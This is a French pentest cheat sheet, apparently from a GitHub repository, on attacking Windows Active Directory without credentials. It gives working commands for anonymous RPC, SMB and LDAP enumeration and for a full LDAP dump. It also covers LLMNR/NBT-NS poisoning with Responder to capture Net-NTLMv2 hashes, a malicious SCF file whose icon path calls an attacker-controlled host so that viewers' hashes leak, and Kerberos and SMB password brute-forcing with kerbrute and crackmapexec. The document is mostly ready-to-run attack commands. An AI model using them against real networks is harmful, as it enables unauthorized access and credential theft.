 # Attaques Windows sans identifiants

### 1. Exploitation du null bind

> Exploitation des services autorisants la connexion sans identifiants
>
> Objectifs : récupérer des informations

#### 1.1. Accès RPC anonyme

> Connexion anonyme à l'annuaire de l'AD.
>
> Objectifs : par exemple, consulter la liste des utilisateurs du domaine.

``` bash
$ rpcclient -p <PORT> -U "" -N <IP>
```

Voir [rpcclient](./rpcclient.md) pour consulter les actions réalisables.

#### 1.2. Accès SMB anonyme

> Objectifs : Accéder à un share SMB sans idenfiants

```bash
$ smbclient -L '\\IP' -U ''%''

$ crackmapexec smb <IP> -u '' -p '' --shares
```

#### 1.3. Accès LDAP anonyme (LDAP anonymous bind)

> Objectifs : lire des parties du LDAP

```bash
# Avec nmap
$ nmap -n -sV --script "ldap* and not brute" <IP_LDAP>

# Avec python
$ python3          
Python 3.9.9 (main, Nov 16 2021, 10:24:31) 
[GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import ldap3
>>> server = ldap3.Server('10.10.11.129', get_info = ldap3.ALL, port=389)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
# Si false, pas exploitable
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')
# Si false, pas exploitable
```

Si exploitable, dump l'intégralité du LDAP :

```bash
$ ldapdomaindump <IP_LDAP>
[*] Connecting as anonymous user, dumping will probably fail. Consider specifying a username/password to login with
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```



### 2. LLMNR/NBT-NS (MITM)

> Attaque Man-In-The-Middle, consistant à intercepter se faire passer pour la ressource demandée afin que la machine s'authentifie sur nous.
>
> LLMNR : Protocole de résolution de nom, utilisé pour chercher un FQDN sur le réseau afin de s'y connecter. 
>
> Ordre de recherche DNS par la machine : base locale (/etc/hosts) > LLMNR > serveur DNS (/etc/resolv.conf).
>
> Objectifs : récupérer le hash Net-NTLMv2 pour le craquer et obtenir le mot de passe de l'utilisateur (pas de pass-the-hash).

```bash
$ sudo responder -I eth0 -wFv
```



### 3. Upload de fichier SCF

> Dans le cas où un upload de fichier se fait sur un partage SMB et qu'une personne va regarder les fichiers uploadés
>
> Objectifs : Récupérer le hash NTLMv2 de l'utilisateur consultant le fichier uploadé

```bash
# payload.scf à upload
[Shell]
Command=2
IconFile=\\<IP_HOTE>\share\test.ico
[TaskBar]
Command=ToggleDesktop

# récupération du hash sur l'Hôte
$ sudo responder -wrf --lm -v -I tun0
```



### 4. Bruteforce

> Quand il n'y a plus rien d'autre à faire
>
> Objectif : obtenir un compte du domaine

- **Bruteforce d'un nom d'utilisateur :**

```bash
# Bruteforce pour obtenir un nom d'utilisateur valide auprès du ldap
$ nmap -n -sV --script ldap-brute -p 389,636 --script-args userdb=<USER_LIST> --script-args ldap.base='"dc=search,dc=htb"' <IP_LDAP>

# Bruteforce pour obtenir un nom d'utilisateur valide en passant par le protocole Kerberos (pré-authentification)
$ kerbrute userenum -d <DOMAIN.COM> <USERNAME_WORDLIST> --dc <DOMAIN_CONTROLLER>
```

- **Bruteforce d'un mot de passe :**

```bash
# Bruteforce d'un mot de passe d'un utilisateur connu via le protocole Kerberos (pré-authentification)
$ kerbrute bruteuser --dc <DOMAIN_CONTROLLER> -d <DOMAIN.COM> <PASSWORD_WORDLIST> <USER_VALIDE>    

# Bruteforce d'un mot de passe d'un utilisateur connu sur un partage SMB
$ crackmapexec smb <IP_DC> -u <USERS_VALIDES_WORDLIST> -p <PASSWORD_WORDLIST> --continue-on-success (pour parcourir toute la liste des utilisateurs fournies)
```

